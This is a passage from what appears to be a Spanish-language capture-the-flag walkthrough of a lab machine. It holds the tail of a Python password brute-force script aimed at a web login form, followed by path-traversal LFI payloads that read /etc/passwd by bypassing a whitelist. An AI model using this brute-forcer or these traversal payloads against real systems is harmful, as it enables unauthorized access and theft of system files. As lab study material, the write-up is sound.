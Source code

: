 ```python
    passwords = f.readlines()
      
    for password in passwords:
        

        login_data = {
            'password': password.rstrip(),
            'login': "Log+In",
            'proc_login': "true"
        }

        p1.status("Probando con la contraseña %s" %password)
        r = s.post(login_url, data=login_data, verify=False)
        
        if 'Incorrect password.' not in r.text:
            p1.success("La contraseña correcta es %s" %password)
            sys.exit(0)

if __name__ == '__main__':

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)
```

### Analizamos el panel de administracion del puerto 80 {-}

Aqui vemos un link llamado Notes, pinchamos y se ve una nota. 
Nos llama la atencion la url `10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt`
Intentamos ver si es vulnerable a un **LFI**

```bash
10.10.10.43/department/manage.php?notes=files/../../../../../../etc/passwd
10.10.10.43/department/manage.php?notes=files/../../../../../../etc/passwd%00
```

Aqui nos pone la pagina un mensaje `No notes selected`. Probamos mas cosas.

```bash
10.10.10.43/department/manage.php?notes=files/ninevehNotes
10.10.10.43/department/manage.php?notes=files/ninevehNote
```

La differentes respuestas nos hacen pensar que hay un systema de White words list que functionna unicamente si tenemos la palabra
**ninevehNotes**

```bash
10.10.10.43/department/manage.php?notes=files/ninevehNotes/../../../../../../etc/passwd
10.10.10.43/department/manage.php?notes=ninevehNotes/../../../../../../etc/passwd
10.10.10.43/department/manage.php?notes=/ninevehNotes/../etc/passwd
```

Ya podemos ver el contenido del `/etc/passwd` y vemos un usuario **amrois**
